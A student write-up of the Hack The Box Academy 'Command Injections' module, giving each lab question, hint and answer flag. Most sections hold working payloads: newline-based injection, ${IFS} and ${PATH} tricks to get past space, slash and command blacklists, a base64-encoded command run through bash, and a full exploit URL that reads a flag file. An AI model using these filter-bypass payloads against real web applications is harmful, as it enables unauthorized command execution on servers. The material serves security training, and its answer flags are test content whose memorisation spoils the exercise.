 # Command Injections
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Command Injections
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 6 hours
* Date: 12-05-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Detection
### Question:
![](./attachments/Pasted%20image%2020220512181746.png)

*Hint: Use Firefox or Chrome. It should start with "Please"*

![](./attachments/Pasted%20image%2020220513102509.png)

**Answer:** `Please match the requested format.`

---
## Injecting Commands
### Question:
![](./attachments/Pasted%20image%2020220512181825.png)

*Hints: You can either user burp or click `CTRL + U` in Firefox to show the source code*

![](./attachments/Pasted%20image%2020220513104047.png)

**Answer:** `17`

---
## Other Injection Operators
### Question:
![](./attachments/Pasted%20image%2020220512181939.png)

![](./attachments/Pasted%20image%2020220513104519.png)

**Answer:** `|`

---
## Identifying Filters
### Question:
![](./attachments/Pasted%20image%2020220512182009.png)

*Hint: Just see which injected characters does not cause a denied request. No need to reach command execution yet, as there are other protections in place.*

New Line character `\n` encoded as URL `%0a` is not blacklisted.

Payload: `%0a`

![](./attachments/Pasted%20image%2020220513121755.png)

**Answer:** `new-line`

---
## Bypassing Space Filters
### Question:
![](./attachments/Pasted%20image%2020220512182054.png)

*Hint: The size column (in bytes) is between the owner 'www-data' and the modification date.*

Working payloads for bypassing blacklisted space, ` `:

Payload 1: `%0a{ls,-la}`

Payload 2: `%0A%09ls%09-lah`

Payload 3: `%0A${IFS}ls${IFS}-la`

![](./attachments/Pasted%20image%2020220513121427.png)

**Answer:** `1813`

---
## Bypassing Other Blacklisted Characters
### Question:
![](./attachments/Pasted%20image%2020220512182139.png)

*Hint: Use the PATH environment variable along with the injection character you identified earlier*

Working payloads for bypassing blacklisted `/`:

Payload 1: `%0a{ls,${PATH:0:1}home}`

Payload 2: `%0A%09ls%09${PATH:0:1}home`

Payload 3: `%0A${IFS}ls${IFS}${PATH:0:1}home`

![](./attachments/Pasted%20image%2020220513122943.png)

**Answer:** `1nj3c70r`

---
## Bypassing Blacklisted Commands
### Question:
![](./attachments/Pasted%20image%2020220512182222.png)

*Hint: Use character insertion to bypass the blacklist on the 'cat' command.*

First, we need to locate 'flag.txt'

Payload: `%0a{ls,${PATH:0:1}home${PATH:0:1}1nj3c70r}`

![](./attachments/Pasted%20image%2020220513125949.png)

We can bypass the blacklisted `cat` command by adding a two `'`s. 

Payload: `%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

![](./attachments/Pasted%20image%2020220513125735.png)

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---
## Advanced Command Obfuscation
### Question:
![](./attachments/Pasted%20image%2020220512182300.png)

*Hint: Don't forget to bypass any filtered characters*

Using Base64 encoding to bypass filters:

![](./attachments/Pasted%20image%2020220608163429.png)

To make the payload useful, all we need to do is bypass the space. This can de done with `${IFS}`, `%09` or `{`x`,`x`}`.

Payload: `%0abash<<<$({base64,-'d'}<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

![](./attachments/Pasted%20image%2020220608163841.png)

**Answer:** `/usr/share/mysql/debian_create_root_user.sql`

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220512182411.png)

*Hint: It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.*

Payload: `https://178.128.46.35:31983/index.php?to=&from=tmp%26%27l%27s%09$%7BPATH:0:1%7Dflag.txt&finish=1&move=1`

**Answer:** `HTB{c0mm4nd3r_1nj3c70r}`

---
**Tags:** [[Hack The Box Academy]]